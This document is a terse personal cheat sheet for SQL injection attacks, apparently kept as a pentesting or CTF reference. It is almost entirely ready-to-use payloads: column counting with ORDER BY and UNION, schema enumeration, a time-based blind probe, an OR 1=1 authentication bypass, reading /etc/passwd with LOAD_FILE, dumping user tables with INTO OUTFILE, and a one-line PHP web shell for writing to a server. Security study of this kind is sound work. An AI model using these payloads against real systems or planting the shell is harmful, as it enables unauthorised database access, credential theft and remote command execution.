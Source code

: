 [[mssql]] [[mysql]] [[oracle]] [[postgresql]]
[[sql]]
cheat-sheet/cheatsheet/cheat sheet
https://portswigger.net/web-security/sql-injection/cheat-sheet

##### Detect type and version
mssql, mysql - `select @@version`
oracle - `select * from v$version`
postgresql - `select version()`

#### Get database
mysql - database()
postgresql - current_database()


##### Detect number of original query columns
```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```
etc. until error occurs
or
until success
```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--`
```
##### Useful queries
* `SELECT * FROM information_schema.tables`
* `SELECT table_name FROM information_schema.tables`
* `select column_name from information_schema.columns where table_name='users';`
*  `select group_concat(column_name) from information_schema.columns where table_name='users';`
*   `' UNION SELECT SLEEP(5),2 where database() like 'u%';--`
* `' OR 1=1;--`
* May be used another quotes like \```
#### Fuzzing SQLi
https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/Intruder/Auth_Bypass.txt


#### Privileges

Check for file privileges:
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

#### load file

```sql
SELECT LOAD_FILE('/etc/passwd');
```

#### write file
shell
```php
<?php system($_REQUEST[0]); ?>
```

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```
secure_file_priv defines scope of of available files, if empty - permits everything

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

hint for working with bin data:
```sql
FROM_BASE64("base64_data")'
```